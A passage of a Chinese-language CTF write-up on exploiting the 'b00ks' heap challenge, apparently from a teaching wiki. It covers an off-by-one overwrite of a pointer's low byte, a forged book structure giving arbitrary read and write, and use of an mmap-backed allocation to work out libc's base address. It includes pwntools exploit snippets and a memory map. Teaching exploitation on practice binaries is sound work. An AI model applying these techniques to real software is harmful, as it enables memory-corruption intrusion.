 ```
book1_addr = io.recv(6)
book1_addr = book1_addr.ljust(8,'\x00')
book1_addr = u64(book1_addr)
```


#### off-by-one 覆蓋指針低字節

程序中同樣提供了一種 change 功能， change 功能用於修改 author name ，所以通過 change 可以寫入 author name ，利用 off-by-one 覆蓋 pointer array 第一個項的低字節。


覆蓋掉 book1 指針的低字節後，這個指針會指向 book1 的 description ，由於程序提供了 edit 功能可以任意修改 description 中的內容。我們可以提前在 description 中佈置數據僞造成一個 book 結構，這個 book 結構的 description 和 name 指針可以由直接控制。

```
def off_by_one(addr):
    addr += 58
    io.recvuntil('>')# create fake book in description
    io.sendline('3')
    fake_book_data = p64(0x1) + p64(addr) + p64(addr) + pack(0xffff)
    io.recvuntil('Enter new book description:')
    io.sendline(fake_book_data) # <== fake book


    io.recvuntil('>') # change author name
    io.sendline('5')
    io.recvuntil('Enter author name:')
    io.sendline('a' * 32) # <== off-by-one
```

這裏在 description 中僞造了 book ，使用的數據是 p64(0x1)+p64(addr)+p64(addr)+pack(0xffff) 。
其中 addr+58 是爲了使指針指向 book2 的指針地址，使得我們可以任意修改這些指針值。


#### 通過棧實現利用

通過前面 2 部分我們已經獲得了任意地址讀寫的能力，讀者讀到這裏可能會覺得下面的操作是顯而易見的，比如寫 got 表劫持流程或者寫 __malloc_hook 劫持流程等。但是這個題目特殊之處在於開啓 PIE 並且沒有泄漏 libc 基地址的方法，因此我們還需要想一下其他的辦法。

這道題的巧妙之處在於在分配第二個 book 時，使用一個很大的尺寸，使得堆以 mmap 模式進行拓展。我們知道堆有兩種拓展方式一種是 brk 會直接拓展原來的堆，另一種是 mmap 會單獨映射一塊內存。

在這裏我們申請一個超大的塊，來使用 mmap 擴展內存。因爲 mmap 分配的內存與 libc 之前存在固定的偏移因此可以推算出 libc 的基地址。
```
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /home/vb/ 桌面 /123/123
0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /home/vb/ 桌面 /123/123
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /home/vb/ 桌面 /123/123
0x00007f8d638a3000 0x00007f8d63a63000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.23.so
0x00007f8d63a63000 0x00007f8d63c63000 0x00000000001c0000 --- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007f8d63c63000 0x00007f8d63c67000 0x00000000001c0000 r-- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007f8d63c67000 0x00007f8d63c69000 0x00000000001c4000 rw- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007f8d63c69000 0x00007f8d63c6d000 0x0000000000000000 rw-
0x00007f8d63c6d000 0x00007f8d63c93000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/ld-2.23.so
0x00007f8d63e54000 0x00007f8d63e79000 0x0000000000000000 rw- <=== mmap
0x00007f8d63e92000 0x00007f8d63e93000 0x0000000000025000 r-- /lib/x86_64-linux-gnu/ld-2.23.so
0x00007f8d63e93000 0x00007f8d63e94000 0x0000000000026000 rw- /lib/x86_64-linux-gnu/ld-2.23.so
0x00007f8d63e94000 0x00007f8d63e95000 0x0000000000000000 rw-
0x00007ffdc4f12000 0x00007ffdc4f33000 0x0000000000000000 rw- [stack]
0x00007ffdc4f7a000 0x00007ffdc4f7d000 0x0000000000000000 r-- [vvar]
0x00007ffdc4f7d000 0x00007ffdc4f7f000 0x0000000000000000 r-x [vdso]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]
```

